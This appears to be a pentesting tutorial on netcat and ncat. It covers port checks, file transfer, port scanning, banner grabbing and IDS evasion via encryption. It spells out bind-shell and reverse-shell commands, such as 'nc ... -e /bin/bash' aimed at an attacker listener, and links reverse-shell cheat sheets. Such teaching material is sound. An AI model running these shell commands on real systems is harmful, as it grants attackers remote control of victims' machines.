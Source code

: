 ### Netcat

As the man page says nc or netcat is a TCP/IP swiss army knife.

You can use this tool to read/write TCP/UDP port. This means that nc can act both as a client and a server.

Connecting to a TCP/UDP port can be useful in several situations:
- To check if a port is open or closed.
- To read a banner from the port.
- To connect to a network service manually

- To Check if Port is open:
root@kali:/home/greysec/scripts# nc -nv 192.168.1.9 80
(UNKNOWN) [192.168.1.9] 80 (http) open

root@kali:/home/greysec/scripts# nc -nv 192.168.1.9 110
(UNKNOWN) [192.168.1.9] 110 (pop3) : Connection refused

Sometimes you get more output than the above you are seeing, including banner info of the server that is running.

### Netcat as a server

root@kali:/home/greysec/scripts# nc -nlvp 1234
listening on [any] 1234 ...

### Netcat as a server

root@kali:/home/greysec/scripts# nc -nv 192.168.1.11 1234


If there is a server/target(192.168.1.1) listening on port 1234, it will get connected.
You can use this connection as a simple chat window:

root@kali:/home/greysec/scripts# nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.168.1.11] from (UNKNOWN) [192.168.1.11] 48344
hello
hellp


root@kali:/home/greysec/scripts# nc -nv 192.168.1.11 1234
(UNKNOWN) [192.168.1.11] 1234 (?) open
hello
hellp


In the above case, port is only opened in listening/server side.

### Transfer a file using nc:

#### C:\Users\offsec>nc -nlvp 4444 > incoming.exe

#### nc -nv 10.0.0.22 4444 < /usr/share/windows-binaries/wget.exe

Netcat can also send stdin,stdout, and stderr output of any executable to a TCP/UDP port.

### Bind Shell:

A bind shell is a shell that binds to a specific port on the target host to listen for incoming connections

The steps to setup a bind shell are as following:

- Bind a bash shell to port 1234 using Netcat.
      - # nc -nlvp 1234 -e cmd.exe
- Connect to the target host on port 4444 from the attack box.
      - # nc -n 192.168.1.8 1234
- Issue commands on the target host from the attack box.

- Open the listening port 1234 and send the stdin,stdout and stderr of cmd.exe to the client.

C:\Users\greysec>nc -nlvp 1234 -e cmd.exe
listening on [any] 1234 ...
connect to [192.168.1.8] from (UNKNOWN) [192.168.1.11] 52552

- Now anyone can connect to this listening. Please make sure that firewall settings only allow only a particular host to connect once you open the listening port, otherwise any unknown person can connect to this which will be dangerous.

- Connect to above host:
root@kali:/home/greysec/scripts# nc -n 192.168.1.8 1234
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\greysec>

### Reverse Shell

In order to setup a Netcat reverse shell we need to follow the following steps:

- Setup a Netcat listener.
      - # nc –lvp 1234
- Connect to the Netcat listener from the target host.
      - nc 192.168.100.113 4444 –e /bin/bash
- Issue commands on the target host from the attack box.


- In Bind shell, tcp opens up a port on the victim's device. But, Usually a machine is behind a firewall (or NAT) and firewalls don't allow ports other than a few specific ones (like 80(http), 443(https), 22(ssh), etc) in the listening ports. So, in most of the cases, bind shell will not work.

- Reverse TCP tries to connect to you (from the target machine back to you: you open a port and wait for the connection). The attacking machine (yours) has a listener port on which it receives the connection, after which, code or command execution is achieved. If it is remotely, port forwarding should be done on your router.

Since the attacking machine is yours only, you can open any port, example: if you think that the target/victim machine is under firewall and there is only port 80 or 443 open, you can get the reverse shell by opening the listening port in your attacking machine. If your port 80 is already busy as http, then you can close apache2 service to free it and then open it in listening mode.

- It is important to realize that outgoing traffic can be just as harmful
as incoming traffic.

Port Scanning using nc:

### nc -v -n -z -w1 <target_address> <target_start_port>- <end_port>

-z -> this is to tell nc not to send any data

-w1 -> wait only 1 sec for a connection to occur, if you think due to strict firewall policies, it is taking time to connect bac, you should increase this number in that case.

Banner Grabbing:

### nc -v -n -w1 <target_address> <target_start_port>-<end_port>



During regular pentesting, you will find that the victim/target machine does not have nc installed or nc does not support -e option(target machine is having older nc version).

You can use following cheatsheet in those cases:

- Before running any command from cheatsheet make sure you know about target environment like whether python or perl or bash is available on target, can you use them.

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
https://highon.coffee/blog/reverse-shell-cheat-sheet/


## Ncat

Ncat is similar to nc in the aspect that ncat can also read and write data to TCP/UDP sockets.

But it has the ability to authenticate and encrypt incoming and outgoing connections.

Authentication helps in avoiding any unwanted IP address to connect to our system and enryption helps in bypassing intrusion detection system(IDS).
